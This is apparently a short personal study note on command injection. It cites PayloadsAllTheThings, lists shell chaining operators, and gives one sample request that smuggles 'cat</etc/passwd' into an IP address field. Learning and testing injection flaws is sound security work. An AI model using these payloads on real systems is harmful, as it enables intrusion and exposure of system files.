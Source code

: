 ```yaml
---
category: Uncategorized
tags: []
---
```

Payload all the things resource
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
```

#### Example 1
![[Pasted image 20220923092643.png]]

![[Pasted image 20220923092704.png]]

Taking logic from payload all the things, we should try these:

>
original_cmd_by_server; ls
original_cmd_by_server && ls
original_cmd_by_server | ls
original_cmd_by_server || ls   # Only if the first cmd fail

![[Pasted image 20220923093359.png]]

```
test=ping&ip_address=64.227.35.202;cat</etc/passwd&submit=Test
```

![[Pasted image 20220923094148.png]]
